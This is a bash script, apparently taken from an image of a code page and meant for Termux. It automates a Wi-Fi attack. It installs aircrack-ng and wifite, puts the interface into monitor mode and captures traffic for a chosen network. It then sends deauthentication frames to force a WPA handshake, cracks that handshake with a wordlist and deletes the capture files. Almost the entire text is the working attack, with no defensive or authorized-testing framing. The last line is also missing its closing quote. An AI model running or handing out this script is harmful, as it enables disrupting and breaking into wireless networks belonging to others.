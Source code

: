 #!/bin/bash

# Check if running as root
if [ "$EUID" -ne 0 ]; then
  echo "Please run as root"
  exit
fi

# Ensure necessary tools are installed
echo "Checking for required tools..."
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install aircrack-ng -y
pip install wifite

# Put the network interface into monitor mode
echo "Putting the network interface into monitor mode..."
airmon-ng start wlan0

# Capture handshake
echo "Capturing handshake..."
airodump-ng wlan0mon

echo "Enter the target BSSID:"
read bssid
echo "Enter the target channel:"
read channel

# Focus the capture on the target network
airodump-ng --bssid $bssid --channel $channel -w capture wlan0mon &

# Deauthenticate a client to force a handshake
echo "Deauthenticating clients to capture handshake..."
aireplay-ng --deauth 10 -a $bssid wlan0mon

# Crack the handshake
echo "Attempting to crack the handshake..."
echo "Enter the path to your wordlist:"
read wordlist
aircrack-ng -w $wordlist -b $bssid capture*.cap

# Clean up
echo "Cleaning up..."
airmon-ng stop wlan0mon
rm capture*.cap

echo "Script completed.
